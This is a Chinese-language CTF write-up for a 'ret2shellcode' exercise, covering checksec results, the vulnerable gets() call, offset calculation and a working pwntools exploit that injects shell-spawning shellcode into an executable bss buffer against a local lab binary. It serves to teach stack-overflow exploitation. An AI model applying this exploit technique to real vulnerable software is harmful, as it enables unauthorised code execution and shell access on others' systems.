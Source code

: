 # PWN Exercise - ret2shellcode


## 准备
[pwntools 介绍：](http://brieflyx.me/2015/python-module/pwntools-intro/) pwntools是由Gallopsled开发的一款专用于CTF Exploit的Python库，包含了本地执行、远程连接读写、shellcode生成、ROP链的构建、ELF解析、符号泄漏等

## 题目

>题目：获取shell。


源程序几乎没有开启任何保护，并且有可读，可写，可执行段。
最简单的栈溢出漏洞利用，return shellcode。

`pwn checksec`

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

伪代码：
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```
## PWN

### pwntools 生成 shellcode
```python
context(arch='i386',os='linux',log_level='debug')
#pwnlib.shellcraft.i386.linux.sh()
shellcode = asm(shellcraft.sh())
```
### 计算偏移
一般计算溢出的偏移通过ebp，但是本题ida计算有偏差。
通常程序main函数前三句指令：
```
push    ebp
mov     ebp,esp
sub     esp,28h
```
本题main函数，可以由于栈优化对齐，`and     esp, 0FFFFFFF0h`，导致ida少算了这步8的偏移，实际应为：char s[100]; //  [ebp-6ch]
```
push    ebp
mov     ebp, esp
and     esp, 0FFFFFFF0h
add     esp, 0FFFFFF80h
```
也可以通过gdb调试通过当时的上下文环境计算偏移。偏移值=(溢出点地址-ebp地址)+4
### return shellcode
因为没有开NX，所以bss段和栈都可以执行，我可以将shellcode放在这两块内存中。   
bss data got等是会映射到一个段里，通过w权限可以判断，一般在rx，rx后的第三块内存地址`0x804a000  0x804b000 rwxp     1000 1000   /home/mi/CTF/pwn1_ret2shelcode/ret2shellcode`。   

```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/mi/CTF/pwn1_ret2shelcode/ret2shellcode
 0x8049000  0x804a000 r-xp     1000 0      /home/mi/CTF/pwn1_ret2shelcode/ret2shellcode
 0x804a000  0x804b000 rwxp     1000 1000   /home/mi/CTF/pwn1_ret2shelcode/ret2shellcode
0xf7dcb000 0xf7fb1000 r-xp   1e6000 0      /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7fb1000 0xf7fb2000 ---p     1000 1e6000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7fb2000 0xf7fb4000 r-xp     2000 1e6000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7fb4000 0xf7fb6000 rwxp     2000 1e8000 /usr/lib/i386-linux-gnu/libc-2.30.so
0xf7fb6000 0xf7fb8000 rwxp     2000 0      
0xf7fcd000 0xf7fcf000 rwxp     2000 0      
0xf7fcf000 0xf7fd2000 r--p     3000 0      [vvar]
0xf7fd2000 0xf7fd3000 r-xp     1000 0      [vdso]
0xf7fd3000 0xf7ffc000 r-xp    29000 0      /usr/lib/i386-linux-gnu/ld-2.30.so
0xf7ffc000 0xf7ffd000 r-xp     1000 28000  /usr/lib/i386-linux-gnu/ld-2.30.so
0xf7ffd000 0xf7ffe000 rwxp     1000 29000  /usr/lib/i386-linux-gnu/ld-2.30.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
```
方法一将shellcode放到bss段，`strncpy(buf2, s, 0x64u);`buf2在bss段中0x0804A080，然后return跳转到该地址。   
```
.bss:0804A080                 public buf2
.bss:0804A080 ; char buf2[100]
.bss:0804A080 buf2            db 64h dup(?)           ; DATA XREF: main+7B↑o
.bss:0804A080 _bss            ends
```
EXP：

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
elf = ELF('ret2shellcode')
io = process(elf.path)
#gdb.attach(io,"b * 0x08048593")

#pwnlib.shellcraft.i386.linux.sh()
shellcode = asm(shellcraft.sh())
buf2_addr = 0x0804A080 
payload = shellcode + b'a'*(0x6c-len(shellcode)) + b'bbbb' +  p32(buf2_addr)
io.sendline(payload)
io.interactive()
```


https://pwntools-docs-zh.readthedocs.io/zh_CN/dev/shellcraft.html


